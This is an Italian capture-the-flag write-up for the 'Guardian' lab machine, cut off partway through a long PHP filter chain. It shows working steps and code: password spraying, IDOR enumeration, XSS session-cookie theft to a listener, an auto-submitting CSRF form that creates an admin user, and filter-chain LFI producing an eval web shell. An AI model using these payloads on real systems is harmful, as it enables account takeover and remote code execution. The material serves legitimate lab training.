








# **Guardian**


## **Recon**

Scansione sulle porte TCP.

```bash
$ nmap -p- --min-rate 1000 10.x.x.x
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Si analizzano le porte attive.

```bash
$ nmap -p22,80 -sCV 10.x.x.x
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9c:69:53:e1:38:3b:de:cd:42:0a:c8:6b:f8:95:b3:62 (ECDSA)
|_  256 3c:aa:b9:be:17:2d:5e:99:cc:ff:e1:91:90:38:b7:39 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://guardian.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _default_; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si aggiorna il file **/etc/hosts**.

```text
10.x.x.x guardian.htb
```

Da browser si visita l'URL **http://guardian.htb/**.

## **Guardian Web Site Analisys**


Sembrerebbe essere il sito web della Guardian University.

Si tenta l'accesso al **Student Portal**.


Il browser viene reindirizzato all'URL **http://portal.guardian.htb**. 

Quindi si aggiorna il file **/etc/hosts** aggiungendo l'hostname **portal.guardian.htb**.

```text
10.x.x.x guardian.htb portal.guardian.htb
```

Si visita nuovamente lo **Student Portal**.

### Student Portal
---


Si tenta l'accesso con le credenziali **admin:password**.

Al tentativo fallito spunta un pop-up in alto a destra della pagina.


Cliccando sul link e' possibile consultare la **Portal Guide**.


Quindi, la password di default per accedere al portale e' **GU1234**.

### Password Spraying Attack
---

Nella home page di **guardian.htb** e' presente una sezione per le **Student Testimonials** in cui sono specificati alcuni **studentID**.


Si tenta uno **password spraying attack** combinando i diversi student ID con la passowrd di default del portale.



Si ottiene l'accessso con le credenziali **GU0142023:GU1234**.

## **Portal Student Web Site Analisys**

Si analizza il portale e le funzionalita' offerte.

La sezione **Chat** sembra offrire la possibilita' di scambiare messaggi con altri utenti del portale.


Ed accedendo al contenuto di una delle due chat.


Dal codice sorgente di **/student/chats.php** si ottengono le corrispondenze tra **utenti** ed **identificativo**.


E' possibile manipolare gli identificativi passati da URL per accedere al contenuto di altre chat.

```text
/student/chats.php?chat_users[0]=USER1&chat_users[1]=USER2
```

Si sta parlando di una vulnerabilita' di **Insecure Direct Object Reference (IDOR)**.

### IDOR
---

Si costruisce una lista dei 62 identificativi.

```bash
$ seq 1 1 62 > ids.txt
```

E si sfrutta la vulnerabilita' e si filtrano le risposte, scartando quelle con il numero di linee piu' "comune".

```bash
$ ffuf -w ids.txt:FROM -w ids.txt:TO -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FROM&chat_users[1]=TO' -b 'PHPSESSID=d1q01d61ouk7vd0uleci36e7hk' -v -fl 164,178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://portal.guardian.htb/student/chat.php?chat_users[0]=FROM&chat_users[1]=TO
 :: Wordlist         : FROM: /home/kali/Desktop/HTB/Machines/Guardian/ids.txt
 :: Wordlist         : TO: /home/kali/Desktop/HTB/Machines/Guardian/ids.txt
 :: Header           : Cookie: PHPSESSID=d1q01d61ouk7vd0uleci36e7hk
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 164,178
________________________________________________

[Status: 200, Size: 7306, Words: 3055, Lines: 185, Duration: 53ms]
| URL | http://portal.guardian.htb/student/chat.php?chat_users[0]=2&chat_users[1]=1
    * FROM: 2
    * TO: 1

[Status: 200, Size: 7302, Words: 3055, Lines: 185, Duration: 58ms]
| URL | http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
    * FROM: 1
    * TO: 2

:: Progress: [3844/3844] :: Job [1/1] :: 623 req/sec :: Duration: [0:00:07] :: Errors: 0 ::

```

L'identificativo 1 corrisponde all'**admin**, mentre l'identificativo 2 corrisponde a **jamil.enockson**.

Si accede al contenuto della chat tra admin e jamil.


Si ottengono le credenziali **jamil.enockson:DHsNnk3V503** per Gitea.

Si tenta l'accesso a **portal.guardian.htb** ma senza successo.

Si aggiorna il file **/etc/hosts** aggiungendo l'hostname **gitea.guardian.htb**.

```text
10.x.x.x guardian.htb portal.guardian.htb gitea.guardian.htb
```

## **Gitea as jamil**

Si visita l'URL **http://gitea.guardian.htb** per accedere al profilo di **jamil**.




Si analizzano i due repository.

### Guardian Repository
---

Nel repository di **guardian.htb** non si trova nulla di interessante.


### Portal Guardian Repository
---

Nel repository **portal.guardian.htb** e' presente il codice sorgente del portale.



Il file **composer.json** contiene le dipendenze dell'applicazione.

```json
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```
Le dipendenze:
- **PHPOffice/PhpSpreadsheet** e' una libreria PHP per leggere e scrivere **spreadsheet files**, come il formato xlsx.
- **PHPOffice/PhpWord** e' una libreria PHP per leggere e scrivere **word processing documents**, come il formato docx.

Cercando sul web informazioni e problematiche delle due librerie, si e' scoperto che le versioni di **PhpSpreadsheet < 3.9** sono vulnerabili al **Cross-Site Scripting Attack (XSS)**.


## **XSS**

In **portal.guardian.htb** con il profilo **GU0142023** e' possibile effettuare l'**upload** di file **xlsx** e **docx** per **Statistics in Business Assignment**.



Si costruisce un file **xlsx** melevole contenente piu' fogli di lavoro e si inserisce il payload nel nome di uno di questi file.

> Perche' deve avere almeno due fogli di lavoro? [https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-wv23-996v-q229](https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-wv23-996v-q229)


```js


```

Si esegue un server locale in ascolto sulla porta 9001 e si carica il file **exploit.xlsx**.



```bash
$ python3 -m http.server 9001
10.x.x.x - - [01/Oct/2025 16:59:45] "GET /PHPSESSID=4q2ug0qj4qpa0ccm7auutgch7f HTTP/1.1" 404 -
```

Si e' ottenuto il **cookie** di sessione dell'utente che ha acceduto al contenuto del file malevole caricato.

## **Lecturer Portal**

Si utilizza il cookie di sessione per accedere al portale.


Si e' ottenuto il profilo di **sammy.treat** che ha il ruolo di **lecturer**, che ha sicuramente la possibilita' di accedere a funzionalita' aggiuntive della piattaforma, rispetto ad un profilo studente.

Tra le funzionalita' offerte si nota che e' anche possibile creare una **notice**.


Il **reference link** allegato alla **notice** sara' revisionato da **admin**.

Quindi, si potrebbe indurre l'admin a visitare un link sotto il nostro controllo.

### Portal Repository Analysis
---

Analizzando il repository **portal.guardian.htb** si nota che e' possibile creare un utente all'endpoint **/admin/create.user**, che e' una risorsa accessibile solo con un profilo **admin**.


E' necessario anche un **csrf token** che dovrebbe prevenire la **Cross-Site Request Forgery (CSRF)**.

Il file **/config/csrf-tokens.php** contiene la logica di gestione del token.

```php
<?php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}
```

Quindi, e' valido qualsiasi token generato dal server e non ci sono restrizioni temporali sulla validita' dello stesso.

Ma come ottenere un **csrf_token**?

Dall'ispezione della pagina per la **creazione** di una **notice** si individua un **hidden field** in cui si specifica un **csrf_token**.


L'idea e' quella di attuare una **CSRF**, inducendo l'**admin** a visitare una pagina malevole che inoltrera' una richiesta ad una risorsa di **portal.guardian.htb** sfruttando i privilegi della vittima.

Il payload per la creazione di un utente di ruolo **admin** e' stato definito nel file **exploit.html**

```html
<form id="exploit" method="POST" action="http://portal.guardian.htb/admin/createuser.php">
        <input type="hidden" name="csrf_token" value="fe0dfe2251f5fe91ea2c78c58a2326f4">
        <input type="hidden" name="username" value="GU9999999">
        <input type="hidden" name="password" value="Password123!">
        <input type="hidden" name="full_name" value="Evil Attacker">
        <input type="hidden" name="email" value="attacker@guardian.htb">
        <input type="hidden" name="dob" value="1999-12-31">
        <input type="hidden" name="address" value="123 The Street">
        <input type="hidden" name="user_role" value="admin">
</form>
<script>document.getElementById("exploit").submit();</script>
```

Si avvia un server python in ascolto sulla porta 8000 e si crea una **notice** specificando l'URL della pagina malevole.


Si attende l'approvazione dell'avviso che apparira' nella **Notice Board**.


Si accede con il profilo **GU9999999:Password123!**.


## **Admin Portal**

Tra le varie funzionalita' il ruolo di **admin** permette di consultare dei **reports**.


Si ispeziona il repository per comprendere il funzionamento di questa funzionalita'.

```php
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

include $report;

```

Non e' possibile muoversi nel file system con la **Local File Inclusion (LFI)** tradizionale, dato che i `..` vengono rilevati.

Inoltre, il file da includere nel report deve terminare ad esempio con **system.php**.

### PHP filter chain
---

Tuttavia, prima di **system.php** si puo' concatenare qualsiasi cosa, come una **PHP filter chain**.

```text
/admin/reports.php?report=PHP_FILTER_CHAIN,system.php
```

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'        
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```



Allora si costruisce una PHP filter chain per includere il codice `<?php eval($_POST["a"]); ?>`.

```bash
$ python3 php_filter_chain_generator.py --chain '<?php eval($_POST["a"]); ?>'                                                                             
[+] The following gadget chain will generate the following code : <?php eval($_POST["a"]); ?> (base64 value: PD9waHAgZXZhbCgkX1BPU1RbImEiXSk7ID8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|